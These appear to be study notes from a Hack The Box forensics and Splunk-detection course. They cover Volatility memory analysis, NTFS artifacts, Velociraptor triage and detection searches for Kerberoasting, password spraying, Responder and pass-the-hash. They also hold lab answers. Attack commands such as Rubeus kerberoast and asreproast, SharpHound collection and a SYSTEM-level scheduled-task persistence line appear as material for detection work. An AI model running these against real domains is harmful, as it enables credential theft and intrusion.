$ vol.py -f /home/htb-student/MemoryDumps/Win7-2515534d.vmem --profile=Win7SP1x64 netscan
To find _TCPT_OBJECT structures using pool tag scanning, use the connscan command.
- Identifying Injected Code
$ vol.py -f /home/htb-student/MemoryDumps/Win7-2515534d.vmem --profile=Win7SP1x64 malfind --pid=608
- Identifying Handles
The handles plugin in Volatility is used for analyzing the handles (file and object references) held by a specific process within a memory dump.
$ vol.py -f /home/htb-student/MemoryDumps/Win7-2515534d.vmem --profile=Win7SP1x64 handles -p 1512 --object-type=Key
$ vol.py -f /home/htb-student/MemoryDumps/Win7-2515534d.vmem --profile=Win7SP1x64 handles -p 1512 --object-type=File
$ vol.py -f /home/htb-student/MemoryDumps/Win7-2515534d.vmem --profile=Win7SP1x64 handles -p 1512 --object-type=Process
- Identifying Windows Services
The svcscan plugin in Volatility is used for listing and analyzing Windows services running on a system within a memory dump.
$ vol.py -f /home/htb-student/MemoryDumps/Win7-2515534d.vmem --profile=Win7SP1x64 svcscan | more
- Identifying Loaded DLLs
$ vol.py -f /home/htb-student/MemoryDumps/Win7-2515534d.vmem --profile=Win7SP1x64 dlllist -p 1512
- Identifying Hives
$ vol.py -f /home/htb-student/MemoryDumps/Win7-2515534d.vmem --profile=Win7SP1x64 hivelist
Rootkit Analysis with Volatility v2
EPROCESS is a data structure in the Windows kernel that represents a process. Each running process in the Windows operating system has a corresponding EPROCESS block in kernel memory. During memory analysis, the examination of EPROCESS structures is crucial for understanding the running processes on a system, identifying parent-child relationships, and determining which processes were active at the time of the memory capture.
The psscan plugin is used to enumerate running processes.
$ vol.py -f /home/htb-student/MemoryDumps/rootkit.vmem psscan
In the output below, we can see that the pslist plugin could not find test.exe which was hidden by a rootkit, but the psscan plugin was able to find it.
Memory Analysis Using Strings
- Identifying IPv4 Addresses
$ strings /home/htb-student/MemoryDumps/Win7-2515534d.vmem | grep -E "\b([0-9]{1,3}\.){3}[0-9]{1,3}\b"
- Identifying Email Addresses
$ strings /home/htb-student/MemoryDumps/Win7-2515534d.vmem | grep -oE "\b[A-Za-z0-9._%+-]+@[A-Za-z0-9.-]+\.[A-Za-z]{2,4}\b"
- Identifying Command Prompt or PowerShell Artifacts
$ strings /home/htb-student/MemoryDumps/Win7-2515534d.vmem | grep -E "(cmd|powershell|bash)[^\s]+"
Q1: Examine the file "/home/htb-student/MemoryDumps/Win7-2515534d.vmem" with Volatility. Enter the parent process name for @WanaDecryptor (Pid 1060) as your answer. Answer format: _.exe
$ /usr/local/bin/vol.py -f /home/htb-student/MemoryDumps/Win7-2515534d.vmem imageinfo
$ /usr/local/bin/vol.py -f /home/htb-student/MemoryDumps/Win7-2515534d.vmem --profile=Win7SP1x64 pslist -p 1060
$ /usr/local/bin/vol.py -f /home/htb-student/MemoryDumps/Win7-2515534d.vmem --profile=Win7SP1x64 pslist -p 1792
Q2: Examine the file "/home/htb-student/MemoryDumps/Win7-2515534d.vmem" with Volatility. tasksche.exe (Pid 1792) has multiple file handles open. Enter the name of the suspicious-looking file that ends with .WNCRYT as your answer. Answer format: _.WNCRYT
$ /usr/local/bin/vol.py -f /home/htb-student/MemoryDumps/Win7-2515534d.vmem --profile=Win7SP1x64 handles -p 1792 --object-type=Key
$ /usr/local/bin/vol.py -f /home/htb-student/MemoryDumps/Win7-2515534d.vmem --profile=Win7SP1x64 handles -p 1792 --object-type=File
hibsys.WNCRYT
$ /usr/local/bin/vol.py -f /home/htb-student/MemoryDumps/Win7-2515534d.vmem --profile=Win7SP1x64 handles -p 1792 --object-type=Process
Q3: Examine the file "/home/htb-student/MemoryDumps/Win7-2515534d.vmem" with Volatility. Enter the Pid of the process that loaded zlib1.dll as your answer.
$ vol.py -f /home/htb-student/MemoryDumps/Win7-2515534d.vmem --profile=Win7SP1x64 dlllist
$ vol.py -f /home/htb-student/MemoryDumps/Win7-2515534d.vmem --profile=Win7SP1x64 dlllist -p 3012
Disk Forensics
Enter Autopsy: a user-friendly forensic platform built atop the open-source Sleuth Kit toolset. It mirrors many features you'd find in its commercial counterparts: timeline assessments, keyword hunts, web and email artifact retrievals, and the ability to sift results based on known malicious file hashes.
Rapid Triage Examination & Analysis Tools
Eric Zimmerman's forensic tools: https://ericzimmerman.github.io/#!index.md
MAC(b) Times in NTFS
The term MAC(b) times denotes a series of timestamps linked to files or objects. These timestamps are pivotal as they shed light on the chronology of events or actions on a file system. The acronym MAC(b) is an abbreviation for Modified, Accessed, Changed, and (b) Birth times. The inclusion of b signifies the Birth timestamp, which isn't universally present across all file systems or easily accessible via standard Windows API functions. Let's delve deeper into the nuances of MACB timestamps.
General Rules for Timestamps in the Windows NTFS File System
| Operation | Modified | Accessed | Birth (Created) |
|---|---|---|---|
| File Create | Yes | Yes | Yes |
| File Modify | Yes | No | No |
| File Copy | No (Inherited) | Yes | Yes |
| File Access | No | No* | No |
All these timestamps reside in the $MFT file, located at the root of the system drive.
These timestamps are housed within the $MFT across two distinct attributes:
$STANDARD_INFORMATION
$FILE_NAME
Structure of MFT File Record
Get-Item * -Stream Zone.Identifier -ErrorAction SilentlyContinue
Get-Content * -Stream Zone.Identifier -ErrorAction SilentlyContinue
Q1: During our examination of the USN Journal within Timeline Explorer, we observed "uninstall.exe". The attacker subsequently renamed this file. Use Zone.Identifier information to determine its new name and enter it as your answer.
.\MFTECmd.exe -f 'C:\Users\johndoe\Desktop\forensic_data\kape_output\D\$Extend\$J' --csv C:\Users\johndoe\Desktop\forensic_data\mft_analysis\ --csvf MFT-J.csv
.\MFTECmd.exe -f 'C:\Users\johndoe\Desktop\forensic_data\kape_output\D\$MFT' --csv C:\Users\johndoe\Desktop\forensic_data\mft_analysis\ --csvf MFT.csv
Zone Id Contents
"[ZoneTransfer]
ZoneId=3
ReferrerUrl=http://10.10.10.10:443/
HostUrl=http://10.10.10.10:443/uninstall.exe
"
Filter Zone Id Contents contain 3, and find the entry number 90469 which is microsoft.windowskits.feedback.exe
Q2: Review the file at "C:\Users\johndoe\Desktop\forensic_data\kape_output\D\Windows\System32\winevt\logs\Microsoft-Windows-Sysmon%4Operational.evtx" using Timeline Explorer. It documents the creation of two scheduled tasks. Enter the name of the scheduled task that begins with "M" and concludes with "r" as your answer.
.\EvtxECmd.exe --sync
.\EvtxECmd.exe -f "C:\Users\johndoe\Desktop\forensic_data\kape_output\D\Windows\System32\winevt\logs\Microsoft-Windows-Sysmon%4Operational.evtx" --csv "C:\Users\johndoe\Desktop\forensic_data\event_logs\csv_timeline" --csvf kape_event_log.csv
Executable Info
schtasks /Create /TN "Microsoft-Windows-DiagnosticDataCollector" /TR "C:\Windows\Tasks\microsoft.windowskits.feedback.exe" /SC DAILY /ST 12:00 /RL HIGHEST /F /RU SYSTEM
Filter payload contains schtasks
Q3: Examine the contents of the file located at "C:\Users\johndoe\Desktop\forensic_data\APMX64\discord.apmx64" using API Monitor. "discord.exe" performed process injection against another process as well. Identify its name and enter it as your answer.
Practical Digital Forensics Scenario
Memory Analysis with Volatility v3
- Identifying the Memory Dump's Profile
python vol.py -q -f ..\memdump\PhysicalMemory.raw windows.info
- Identifying Injected Code
python vol.py -q -f ..\memdump\PhysicalMemory.raw windows.malfind
- Identifying Running Processes
python vol.py -q -f ..\memdump\PhysicalMemory.raw windows.pslist
python vol.py -q -f ..\memdump\PhysicalMemory.raw windows.pstree
- Identifying Process Command Lines
python vol.py -q -f ..\memdump\PhysicalMemory.raw windows.cmdline
Dumping Process Memory & Leveraging YARA
python vol.py -q -f ..\memdump\PhysicalMemory.raw windows.memmap --pid 3648 --dump
PS C:\Users\johndoe> $rules = Get-ChildItem C:\Users\johndoe\Desktop\yara-4.3.2-2150-win64\rules | Select-Object -Property Name
PS C:\Users\johndoe> foreach ($rule in $rules) {C:\Users\johndoe\Desktop\yara-4.3.2-2150-win64\yara64.exe C:\Users\johndoe\Desktop\yara-4.3.2-2150-win64\rules\$($rule.Name) C:\Users\johndoe\Desktop\pid.3648.dmp}
- Identifying Loaded DLLs
python vol.py -q -f ..\memdump\PhysicalMemory.raw windows.dlllist --pid 3648
- Identifying Handles
python vol.py -q -f ..\memdump\PhysicalMemory.raw windows.handles --pid 3648
- Identifying Network Artifacts
python vol.py -q -f ..\memdump\PhysicalMemory.raw windows.netstat
python vol.py -q -f ..\memdump\PhysicalMemory.raw windows.netscan
Disk Image/Rapid Triage Data Examination & Analysis
Extracting Cobalt Strike Beacon Configuration
python parse_beacon_config.py E:\payload.dll
Analyzing Rapid Triage Data - Windows Event Logs (Chainsaw)
chainsaw_x86_64-pc-windows-msvc.exe hunt "..\kapefiles\auto\C%3A\Windows\System32\winevt\Logs" -s sigma/ --mapping mappings/sigma-event-logs-all.yml -r rules/ --csv --output output_csv
Q1: Extract and scrutinize the memory content of the suspicious PowerShell process which corresponds to PID 6744. Determine which tool from the PowerSploit repository (accessible at https://github.com/PowerShellMafia/PowerSploit) has been utilized within the process, and enter its name as your answer.
PowerView
python vol.py -q -f ..\memdump\PhysicalMemory.raw windows.memmap --pid 6744 --dump
PS C:\Users\johndoe> $rules = Get-ChildItem C:\Users\johndoe\Desktop\yara-4.3.2-2150-win64\rules | Select-Object -Property Name
foreach ($rule in $rules) {C:\Users\johndoe\Desktop\yara-4.3.2-2150-win64\yara64.exe C:\Users\johndoe\Desktop\yara-4.3.2-2150-win64\rules\$($rule.Name) C:\Users\johndoe\Desktop\pid.6744.dmp}
Q2: Investigate the USN Journal located at "C:\Users\johndoe\Desktop\kapefiles\ntfs\%5C%5C.%5CC%3A\$Extend\$UsnJrnl%3A$J" to determine how "advanced_ip_scanner.exe" was introduced to the compromised system. Enter the name of the associated process as your answer. Answer format: _.exe
rundl32.exe
Use Autopsy, timeline->List
python C:\Users\johndoe\Desktop\files\USN-Journal-Parser-master\usnparser\usn.py -f 'C:\Users\johndoe\Desktop\kapefiles\ntfs\%5C%5C.%5CC%3A\$Extend\$UsnJrnl%3A$J' -o C:\Users\johndoe\Desktop\usn_output.csv -c
$time1 = [DateTime]::ParseExact("2023-08-10 09:00:00.000000", "yyyy-MM-dd HH:mm:ss.ffffff", $null)
$time2 = [DateTime]::ParseExact("2023-08-10 10:00:00.000000", "yyyy-MM-dd HH:mm:ss.ffffff", $null)
Import-Csv -Path C:\Users\johndoe\Desktop\usn_output.csv | Where-Object { $_.'FileName' -match '\.exe$|\.txt$|\.msi$|\.bat$|\.ps1$|\.iso$|\.lnk$' } | Where-Object { $_.timestamp -as [DateTime] -ge $time1 -and $_.timestamp -as [DateTime] -lt $time2 }
Skills Assessment
Q1: Using VAD analysis, pinpoint the suspicious process and enter its name as your answer. Answer format: _.exe
Windows.System.VAD
Check for processes with memory sections marked as EXECUTE_READWRITE or suspicious permissions.
Cross-refrence: Windows.System.PsList
Search for strings not contain Windows: ^(?!.*Windows).*
"ProtectionMsg":"PAGE_EXECUTE_READWRITE",
{"Pid":8244,"Ppid":6548,"TokenIsElevated":true,"Name":"reverse.exe","CommandLine":"\"C:\\Users\\j0seph\\AppData\\Local\\reverse.exe\"
reverse.exe
Q2: Determine the IP address of the C2 (Command and Control) server and enter it as your answer.
Windows.Network.Netstat
{"Pid":7924,"Name":"reverse.exe","Family":"IPv4","Type":"TCP","Status":"SENT","Laddr.IP":"10.129.228.172","Laddr.Port":57265,"Raddr.IP":"3.19.219.4","Raddr.Port":80,"Timestamp":"2025-01-22T04:59:57Z"}
Q3: Determine the registry key used for persistence and enter it as your answer.
https://docs.velociraptor.app/artifact_references/
Windows.Registry.WDigest
The Windows Registry is a database of low-level operating systems and application settings. The Run keys are specific keys within the Registry that contain a path that runs every time a user logs on, and they are listed below:
-
HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Run Run path when the current user logs in
-
HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Run Run path when any user logs in
-
HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\RunOnce Run path when the current user logs in, then delete
-
HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\RunOnce Run path when any user logs in, then delete
Q4: Determine the folder that contains all Mimikatz-related files and enter the full path as your answer.
Windows.Search.FileFinder
Change the configuration multiple times to find the right folder.
C:\Users\j0seph\AppData\Local\mimik
Q5: Determine the Microsoft Word document that j0seph recently accessed and enter its name as your answer. Answer format: _.DOCX
Windows.Forensics.Prefetch
Then, search docx in the json file.
Incident Response and Threat hunting using Velociraptor Pt.2
Detecting Windows Attacks with Splunk
Detecting Common User/Domain Recon
Domain Reconnaissance
- User/Domain Reconnaissance Using Native Windows Executables
whoami /all
wmic computersystem get domain
net user /domain
net group "Domain Admins" /domain
arp -a
nltest /domain_trusts
- User/Domain Reconnaissance Using BloodHound/SharpHound
BloodHound is an open-source domain reconnaissance tool created to analyze and visualize the Active Directory (AD) environment.
Sharphound is a C# data collector for BloodHound.
.\SharpHound.exe -c all
Under the hood, the BloodHound collector executes numerous LDAP queries directed at the Domain Controller, aiming to amass information about the domain.
However, monitoring LDAP queries can be a challenge. By default, the Windows Event Log does not record them. The best option Windows can suggest is employing Event 1644 - the LDAP performance monitoring log. Even with it enabled, BloodHound may not generate many of the expected events.
A more reliable approach is to utilize the Windows ETW provider Microsoft-Windows-LDAP-Client. SilkETW & SilkService are versatile C# wrappers for ETW, designed to simplify the intricacies of ETW, providing an accessible interface for research and introspection. SilkService supports output to the Windows Event Log, which streamlines log digestion. Another useful feature is the ability to employ Yara rules for hunting suspicious LDAP queries.
In addition, Microsoft's ATP team has compiled a list of LDAP filters frequently used by reconnaissance tools.
Detecting User/Domain Recon With Splunk
- Detecting Recon By Targeting Native Windows Executables
Timeframe: earliest=1690447949 latest=1690450687
index=main source="XmlWinEventLog:Microsoft-Windows-Sysmon/Operational" EventID=1 earliest=1690447949 latest=1690450687
| search process_name IN (arp.exe,chcp.com,ipconfig.exe,net.exe,net1.exe,nltest.exe,ping.exe,systeminfo.exe,whoami.exe) OR (process_name IN (cmd.exe,powershell.exe) AND process IN (*arp*,*chcp*,*ipconfig*,*net*,*net1*,*nltest*,*ping*,*systeminfo*,*whoami*))
| stats values(process) as process, min(_time) as _time by parent_process, parent_process_id, dest, user
| where mvcount(process) > 3
- Detecting Recon By Targeting BloodHound
Timeframe: earliest=1690195896 latest=1690285475
index=main earliest=1690195896 latest=1690285475 source="WinEventLog:SilkService-Log"
| spath input=Message
| rename XmlEventData.* as *
| table _time, ComputerName, ProcessName, ProcessId, DistinguishedName, SearchFilter
| sort 0 _time
| search SearchFilter="*(samAccountType=805306368)*"
| stats min(_time) as _time, max(_time) as maxTime, count, values(SearchFilter) as SearchFilter by ComputerName, ProcessName, ProcessId
| where count > 10
| convert ctime(maxTime)
Q: Modify and employ the Splunk search provided at the end of this section on all ingested data (All time) to find all process names that made LDAP queries where the filter includes the string *(samAccountType=805306368)*. Enter the missing process name from the following list as your answer. N/A, Rubeus, SharpHound, mmc, powershell, _
index=main source="WinEventLog:SilkService-Log"
| spath input=Message
| rename XmlEventData.* as *
| table _time, ComputerName, ProcessName, ProcessId, DistinguishedName, SearchFilter
| sort 0 _time
| search SearchFilter="*(samAccountType=805306368)*"
| stats min(_time) as _time, max(_time) as maxTime, count, values(SearchFilter) as SearchFilter by ComputerName, ProcessName, ProcessId
Detecting Password Spraying
Password Spraying
Password Spraying Detection Opportunities
A common pattern is multiple failed logon attempts with Event ID 4625 - Failed Logon from different user accounts but originating from the same source IP address within a short time frame.
Other event logs that may aid in password spraying detection include:
4768 and ErrorCode 0x6 - Kerberos Invalid Users
4768 and ErrorCode 0x12 - Kerberos Disabled Users
4776 and ErrorCode 0xC000006A - NTLM Invalid Users
4776 and ErrorCode 0xC0000064 - NTLM Wrong Password
4648 - Authenticate Using Explicit Credentials
4771 - Kerberos Pre-Authentication Failed
Detecting Password Spraying With Splunk
Timeframe: earliest=1690280680 latest=1690289489
index=main earliest=1690280680 latest=1690289489 source="WinEventLog:Security" EventCode=4625
| bin span=15m _time
| stats values(user) as Users, dc(user) as dc_user by src, Source_Network_Address, dest, EventCode, Failure_Reason
Search Breakdown:
Filtering by Index, Source, and EventCode: The search starts by selecting events from the main index where the source is WinEventLog:Security and the EventCode is 4625. This EventCode represents failed logon attempts in the Windows Security Event Log.
Time Range Filter: The search restricts the time range of events to those occurring between the Unix timestamps 1690280680 and 1690289489. These timestamps represent the earliest and latest times in which the events occurred.
Time Binning: The bin command is used to create time buckets of 15 minutes duration for each event based on the _time field. This step groups the events into 15-minute intervals, which can be useful for analyzing patterns or trends over time.
Statistics: The stats command is used to aggregate events based on the fields src, Source_Network_Address, dest, EventCode, and Failure_Reason.
For each unique combination of these fields, the search calculates the following statistics:
values(user) as Users: All unique values of the user field within each group.
dc(user) as dc_user: The distinct count of unique values of the `user` field within each group. This represents the number of different users associated with the failed logon attempts in each group.
Detecting Responder-like Attacks
LLMNR/NBT-NS/mDNS Poisoning
LLMNR (Link-Local Multicast Name Resolution) and NBT-NS (NetBIOS Name Service) poisoning, also referred to as NBNS spoofing, are network-level attacks that exploit inefficiencies in these name resolution protocols. Both LLMNR and NBT-NS are used to resolve hostnames to IP addresses on local networks when the fully qualified domain name (FQDN) resolution fails. However, their lack of built-in security mechanisms renders them susceptible to spoofing and poisoning attacks.
Typically, attackers employ the Responder tool to execute LLMNR, NBT-NS, or mDNS poisoning.
Responder Detection Opportunities
Detecting LLMNR, NBT-NS, and mDNS poisoning can be challenging. However, organizations can mitigate the risk by implementing the following measures:
-
Deploy network monitoring solutions to detect unusual
LLMNRandNBT-NStraffic patterns, such as an elevated volume of name resolution requests from a single source. -
Employ a honeypot approach - name resolution for non-existent hosts should fail. If an attacker is present and spoofing LLMNR/NBT-NS/mDNS responses, name resolution will succeed. https://www.praetorian.com/blog/a-simple-and-effective-way-to-detect-broadcast-name-resolution-poisoning-bnrp/
# A PowerShell script similar to the following can be automated to run as a scheduled task to aid in detection.
$logfile = 'C:tmppoisoning.csv'
$requestHosts = @('CORP-TX-FILE-01','COPY-NY-DC-02') #False hostnames to request
$interval = 30 #The minimum number of seconds to wait between requests
$jitter = 30 #The maximum value for a random number of seconds to add to the interval
while($true){
Start-Sleep ($interval + (Get-Random ($jitter + 1)))
try {
$ErrorActionPreference = 'stop'
$request = Get-Random $requestHosts
$ipAddr = (Resolve-DnsName -LlmnrNetbiosOnly -Name $request).IPAddress.tostring()
$ErrorActionPreference = "continue"
$event = [pscustomobject]@{
date = Get-Date -format o
host = $env:COMPUTERNAME
request = $request
attacker_ip = $ipAddr
message = "LLMNR/NBT-NS spoofing by $ipAddr detected with $request request"
}
Write-Output $event.message
$event | Export-Csv -Path $logfile -Append -NoTypeInformation
} catch [System.Management.Automation.RuntimeException],
[System.ComponentModel.Win32Exception] {
#Suppress output of timeout errors
} finally {
$ErrorActionPreference = "continue"
}
}
New-EventLog -LogName Application -Source LLMNRDetection
Write-EventLog -LogName Application -Source LLMNRDetection -EventId 19001 -Message $msg -EntryType Warning
Detecting Responder-like Attacks With Splunk
Timeframe: earliest=1690290078 latest=1690291207
index=main earliest=1690290078 latest=1690291207 SourceName=LLMNRDetection
| table _time, ComputerName, SourceName, Message
Sysmon Event ID 22 can also be utilized to track DNS queries associated with non-existent/mistyped file shares.
index=main earliest=1690290078 latest=1690291207 EventCode=22
| table _time, Computer, user, Image, QueryName, QueryResults
Additionally, remember that Event 4648 can be used to detect explicit logons to rogue file shares which attackers might use to gather legitimate user credentials.
index=main earliest=1690290814 latest=1690291207 EventCode IN (4648)
| table _time, EventCode, source, name, user, Target_Server_Name, Message
| sort 0 _time
Q: Modify and employ the provided Sysmon Event 22-based Splunk search on all ingested data (All time) to identify all share names whose location was spoofed by 10.10.0.221. Enter the missing share name from the following list as your answer. myshare, myfileshar3, _
index=main EventCode=22 QueryResults="*10.10.0.221*"
| table _time, Computer, user, Image, QueryName, QueryResults
Detecting Kerberoasting/AS-REProasting
Kerberoasting is a technique targeting service accounts in Active Directory environments to extract and crack their password hashes.
An example of a Kerberoasting attack is using the Rubeus kerberoast module.
.\Rubeus.exe kerberoast
Kerberoasting Attack Steps:
-
Identify Target Service Accounts: The attacker enumerates Active Directory to identify service accounts with
Service Principal Names (SPNs)set. Service accounts are often associated with services running on the network, such as SQL Server, Exchange, or other applications. The following is a code snippet fromRubeusthat is related to this step. -
Request TGS Tickets: The attacker uses the identified service accounts to request
Ticket Granting Service (TGS)tickets from theKey Distribution Center (KDC). These TGS tickets contain encrypted service account password hashes. The following is a code snippet fromRubeusthat is related to this step. -
Offline Brute-Force Attack: The attacker employs offline brute-force techniques, utilizing password cracking tools like
HashcatorJohn the Ripper, to attempt to crack the encrypted password hashes.
During the Kerberos authentication process, several security-related events are generated in the Windows Event Log when a user connects to an MSSQL server:
Event ID 4768 (Kerberos TGT Request): Occurs when the client workstation requests a TGT from the KDC, generating this event in the Security log on the domain controller.
Event ID 4769 (Kerberos Service Ticket Request): Generated after the client receives the TGT and requests a TGS for the MSSQL server's SPN.
Event ID 4624 (Logon): Logged in the Security log on the MSSQL server, indicating a successful logon once the client initiates a connection to the MSSQL server and logs in using the service account with the SPN to establish the connection.
Kerberoasting Detection Opportunities
Detection logic entails finding all events for TGS requests and logon events from the same user, then identifying instances where a TGS request is present without a subsequent logon event. In the case of IIS service access using a service account with an SPN, an additional 4648 (A logon was attempted using explicit credentials) event will be generated as a logon event.
Detecting Kerberoasting With Splunk
- Benign TGS Requests
index=main earliest=1690388417 latest=1690388630 EventCode=4648 OR (EventCode=4769 AND service_name=iis_svc)
| dedup RecordNumber
| rex field=user "(?<username>[^@]+)"
| table _time, ComputerName, EventCode, name, username, Account_Name, Account_Domain, src_ip, service_name, Ticket_Options, Ticket_Encryption_Type, Target_Server_Name, Additional_Information
Search Breakdown:
index=main earliest=1690388417 latest=1690388630: This filters the search to only include events from the main index that occurred between the specified earliest and latest epoch timestamps.
EventCode=4648 OR (EventCode=4769 AND service_name=iis_svc): This further filters the search to only include events with an EventCode of 4648 or an EventCode of 4769 with a service_name of iis_svc.
| dedup RecordNumber: This removes duplicate events based on the RecordNumber field.
| rex field=user "(?<username>[^@]+)": This extracts the username portion of the user field using a regular expression and stores it in a new field called username.
| table _time, ComputerName, EventCode, name, username, Account_Name, Account_Domain, src_ip, service_name, Ticket_Options, Ticket_Encryption_Type, Target_Server_Name, Additional_Information: This displays the specified fields in tabular format.
- Detecting Kerberoasting - SPN Querying
index=main earliest=1690448444 latest=1690454437 source="WinEventLog:SilkService-Log"
| spath input=Message
| rename XmlEventData.* as *
| table _time, ComputerName, ProcessName, DistinguishedName, SearchFilter
| search SearchFilter="*(&(samAccountType=805306368)(servicePrincipalName=*)*"
- Detecting Kerberoasting - TGS Requests
index=main earliest=1690450374 latest=1690450483 EventCode=4648 OR (EventCode=4769 AND service_name=iis_svc)
| dedup RecordNumber
| rex field=user "(?<username>[^@]+)"
| bin span=2m _time
| search username!=*$
| stats values(EventCode) as Events, values(service_name) as service_name, values(Additional_Information) as Additional_Information, values(Target_Server_Name) as Target_Server_Name by _time, username
| where !match(Events,"4648")
| search username!=*$: Filters out events where the username field ends with a $.
| where !match(Events,"4648"): Filters out events that have the value 4648 in the Events field.
- Detecting Kerberoasting Using Transactions - TGS Requests
index=main earliest=1690450374 latest=1690450483 EventCode=4648 OR (EventCode=4769 AND service_name=iis_svc)
| dedup RecordNumber
| rex field=user "(?<username>[^@]+)"
| search username!=*$
| transaction username keepevicted=true maxspan=5s endswith=(EventCode=4648) startswith=(EventCode=4769)
| where closed_txn=0 AND EventCode = 4769
| table _time, EventCode, service_name, username
| transaction username keepevicted=true maxspan=5s endswith=(EventCode=4648) startswith=(EventCode=4769): Groups events into transactions based on the username field. The keepevicted=true option includes events that do not meet the transaction criteria. The maxspan=5soption sets the maximum time duration of a transaction to 5 seconds. The endswith=(EventCode=4648) and startswith=(EventCode=4769) options specify that transactions should start with an event with EventCode 4769 and end with an event with EventCode 4648.
| where closed_txn=0 AND EventCode = 4769: Filters the results to only include transactions that are not closed (closed_txn=0) and have an EventCode of 4769.
AS-REPRoasting
ASREPRoasting is a technique used in Active Directory environments to target user accounts without pre-authentication enabled.
.\Rubeus.exe asreproast
ASREPRoasting Attack Steps:
-
Identify Target User Accounts: The attacker identifies user accounts without pre-authentication enabled. The following is a code snippet from
Rubeusthat is related to this step. -
Request AS-REQ Service Tickets: The attacker initiates an AS-REQ service ticket request for each identified target user account. The following is a code snippet from Rubeus that is related to this step.
-
Offline Brute-Force Attack: The attacker captures the encrypted TGTs and employs offline brute-force techniques to attempt to crack the password hashes.
Kerberos pre-authentication is an additional security mechanism in the Kerberos authentication protocol enhancing user credentials protection during the authentication process. When a user tries to access a network resource or service, the client sends an authentication request AS-REQ to the KDC.
If pre-authentication is enabled, this request also contains an encrypted timestamp (pA-ENC-TIMESTAMP). The KDC attempts to decrypt this timestamp using the user password hash and, if successful, issues a TGT to the user.
When pre-authentication is disabled, there is no timestamp validation by the KDC, allowing users to request a TGT ticket without knowing the user password.
AS-REPRoasting Detection Opportunities
Kerberos authentication Event ID 4768 (TGT Request) contains a PreAuthType attribute in the additional information part of the event indicating whether pre-authentication is enabled for an account.
Detecting AS-REPRoasting With Splunk
- Detecting AS-REPRoasting - Querying Accounts With Pre-Auth Disabled
index=main earliest=1690392745 latest=1690393283 source="WinEventLog:SilkService-Log"
| spath input=Message
| rename XmlEventData.* as *
| table _time, ComputerName, ProcessName, DistinguishedName, SearchFilter
| search SearchFilter="*(samAccountType=805306368)(userAccountControl:1.2.840.113556.1.4.803:=4194304)*"
- Detecting AS-REPRoasting - TGT Requests For Accounts With Pre-Auth Disabled
index=main earliest=1690392745 latest=1690393283 source="WinEventLog:Security" EventCode=4768 Pre_Authentication_Type=0
| rex field=src_ip "(\:\:ffff\:)?(?<src_ip>[0-9\.]+)"
| table _time, src_ip, user, Pre_Authentication_Type, Ticket_Options, Ticket_Encryption_Type
| rex field=src_ip "(\:\:ffff\:)?(?<src_ip>[0-9\.]+)": Uses a regular expression to extract the src_ip (source IP address) field. The expression matches an optional "::ffff:" prefix followed by an IP address in dotted decimal notation. This step handles IPv4-mapped IPv6 addresses by extracting the IPv4 portion.
Q: Modify and employ the Splunk search provided at the "Detecting Kerberoasting - SPN Querying" part of this section on all ingested data (All time). Enter the name of the user who initiated the process that executed an LDAP query containing the "(&(samAccountType=805306368)(servicePrincipalName=)*" string at 2023-07-26 16:42:44 as your answer. Answer format: CORP_
index=main source="WinEventLog:SilkService-Log"
| spath input=Message
| rename XmlEventData.* as *
| table _time, ComputerName, ProcessName, DistinguishedName, SearchFilter,ProcessID
| search SearchFilter="*(&(samAccountType=805306368)(servicePrincipalName=*)*"
index=main ProcessId=7136 EventCode=1
| table _time,EventCode, ProcessId, ProcessName, User
EventCode=1: indicating process creation
Detecting Pass-the-Hash
Pass-the-Hash is a technique utilized by attackers to authenticate to a networked system using the NTLM hash of a user's password instead of the plaintext password. The attack capitalizes on the way Windows stores password hashes in memory, enabling adversaries with administrative access to capture the hash and reuse it for lateral movement within the network.
Pass-the-Hash Attack Steps:
-
The attacker employs tools such as
Mimikatzto extract theNTLMhash of a user currently logged onto the compromised system. Note that local administrator privileges are required on the system to extract the user's hash. -
Armed with the
NTLMhash, the attacker can authenticate as the targeted user on other systems or network resources without needing to know the actual password.` -
Utilizing the authenticated session, the attacker can move laterally within the network, gaining unauthorized access to other systems and resources.
Windows Access Tokens & Alternate Credentials
An access token is a data structure that defines the security context of a process or thread. It contains information about the associated user account's identity and privileges.
https://learn.microsoft.com/en-us/windows/win32/secauthz/access-tokens
Alternate Credentials provide a way to supply different login credentials (username and password) for specific actions or processes without altering the user's primary login session. This permits a user or process to execute certain commands or access resources as a different user without logging out or switching user accounts. The runas command is a Windows command-line tool that allows users to execute commands as another user. When the runas command is executed, a new access token is generated, which can be verified with the whoami command.
The runas command also contains an interesting flag /netonly. This flag indicates that the specified user information is for remote access only. Even though the whoami command returns the original username, the spawned cmd.exe can still access the Domain Controller root folder.
Pass-the-Hash Detection Opportunities
-
When
runascommand is executed without the/netonlyflag -Event ID 4624 (Logon)withLogonType 2 (interactive). -
When
runascommand is executed with the/netonlyflag -Event ID 4624 (Logon)withLogonType 9 (NewCredentials).`
The main difference between runas with the netonly flag and the Pass-the-Hash attack is that in the latter case, Mimikatz will access the LSASS process memory to change LogonSession credential materials. Thus, initial detection can be enhanced by correlating User Logon with NewCredentials events with Sysmon Process Access Event Code 10.
Detecting Pass-the-Hash With Splunk
"The main difference to key off of is the Logon Process will always be seclogo for pass the hash (from my tests), so you can filter on that to reduce false-positive rates."
index=main earliest=1690450708 latest=1690451116 source="WinEventLog:Security" EventCode=4624 Logon_Type=9 Logon_Process=seclogo
| table _time, ComputerName, EventCode, user, Network_Account_Domain, Network_Account_Name, Logon_Type, Logon_Process
Enhanced search term:
index=main earliest=1690450689 latest=1690451116 (source="XmlWinEventLog:Microsoft-Windows-Sysmon/Operational" EventCode=10 TargetImage="C:\\Windows\\system32\\lsass.exe" SourceImage!="C:\\ProgramData\\Microsoft\\Windows Defender\\platform\\*\\MsMpEng.exe") OR (source="WinEventLog:Security" EventCode=4624 Logon_Type=9 Logon_Process=seclogo)
| sort _time, RecordNumber
| transaction host maxspan=1m endswith=(EventCode=4624) startswith=(EventCode=10)
| stats count by _time, Computer, SourceImage, SourceProcessId, Network_Account_Domain, Network_Account_Name, Logon_Type, Logon_Process
| fields - count
EventCode 10 (Process Access), EventCode 4624 (Logon), Logon_Type 9 (NewCredentials).
Detecting Pass-the-Ticket
